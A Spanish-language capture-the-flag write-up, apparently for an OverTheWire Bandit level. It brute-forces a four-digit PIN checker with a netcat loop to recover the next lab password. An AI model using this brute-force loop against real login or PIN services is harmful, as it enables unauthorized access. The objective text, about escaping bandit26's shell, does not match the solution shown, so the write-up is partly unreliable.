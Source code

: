 # Level 25

## Objetivos
Logging in to bandit26 from bandit25 should be fairly easy… The shell for user bandit26 is not **/bin/bash**, but something else. Find out what it is, how it works and how to break out of it.

## Datos de acceso 
bandit24 <-UserName
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar <-Password

## Solución 
```bash
bandit24@bandit:~$ nc localhost 30002 <<< VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 1
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Fail! You did not supply enough data. Try again.
^C
bandit24@bandit:~$ for i in {0000..9999}; do echo VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i; done | nc localhost 30002

I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.

...

Correct!
The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d

Exiting.


```

ó

```bash
bandit24@bandit:~$ for i in {0000..9999}; do echo VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i; done | nc localhost 30002 | grep -v Wrong
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d

Exiting.
bandit24@bandit:~$
```
## Notas dicionales 
Podemos hacer una secuencia de esta forma {0000..9999} no imprimira números de cuatro digitos podemos realizar un for haciendo con esa secuancia y el comando "nc localhost 30002" 

podemos agregar al final  el comando "grep -v Wrong" para que nos filtre las respuestas incorrectas y quedarnos solo con el password